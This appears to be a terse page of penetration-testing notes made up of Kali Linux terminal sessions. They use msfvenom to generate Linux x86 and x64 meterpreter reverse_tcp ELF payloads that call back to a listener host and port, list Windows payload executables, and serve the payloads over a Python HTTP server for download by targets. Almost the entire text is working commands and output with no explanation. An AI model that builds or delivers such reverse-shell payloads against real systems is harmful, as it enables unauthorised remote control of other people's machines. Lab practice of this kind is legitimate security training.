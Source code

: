 ```
    java
    js_be
    js_le
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript

```

```
┌──(root㉿kali)-[~/payloads/Linux_Payloads]
└─# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -f elf > payloadx86   
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```

```
┌──(root㉿kali)-[~/payloads/Linux_Payloads]
└─# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -f elf > payloadx64   
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# ls
payloadx64.exe  payloadx86.exe
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
